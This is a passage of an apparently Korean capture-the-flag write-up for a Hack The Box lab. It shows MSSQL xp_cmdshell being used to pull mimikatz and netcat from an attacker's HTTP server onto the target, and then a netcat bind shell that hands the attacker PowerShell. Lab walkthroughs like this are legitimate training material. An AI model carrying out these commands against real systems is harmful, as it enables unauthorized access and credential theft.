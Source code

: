 mimikatz.exe를 다운로드하여 실행해보려 했으나 host 정보를 제대로 갖고오지 못하여 다른 방법을 찾아볼까 한다. -> HTB 문제는 기본적으로 외부와 접근이 되지 않는다고 한다.
``` bash
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell curl -fsSL -O https://raw.githubusercontent.com/ParrotSec/mimikatz/blob/master/Win32/mimikatz.exe
output
-----------------------------------------------------------
curl: (6) Could not resolve host: raw.githubusercontent.com

NULL
```



### File Transfer - Success
공격 대상 서버로 각종 파일을 옮길 때 아래와 같이 옮기면 된다. 공격자 서버에는 `python -m http.server`를 띄워놓은 상태이다.
``` bash
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell curl -o C:\Users\Public\mimi.exe http://10.10.14.175:8000/mimi.exe
output
--------------------------------------------------------------------------------
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current

                                 Dload  Upload   Total   Spent    Left  Speed

100 1059k  100 10       0     0   200k      0  0:00:05  0:00:01  0:00:04  126k

59k    0     0   529k      0  0:00:02  0:00:02 --:--:--  445k

NULL

SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell curl -o C:\Users\Public\nc.exe http://10.10.14.175:8000/nc.exe
output
--------------------------------------------------------------------------------
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current

                                 Dload  Upload   Total   Spent    Left  Speed

100 59392  100 59392    0     0  59392      0  0:00:01  0:00:01 --:--:-- 56725

NULL
```

### Bind&Reverse Shell
nc.exe를  전송하였기에 아래와 같이 기본적인 바인드 쉘 연결을 할 수 있다.
``` bash
# 공격 대상 서버
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell C:\Users\Public\nc.exe -lvp 443 -e powershell

# 공격자 서버
┌──(root㉿kali)-[~user]
└─# nc 10.129.41.155 443
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>
```
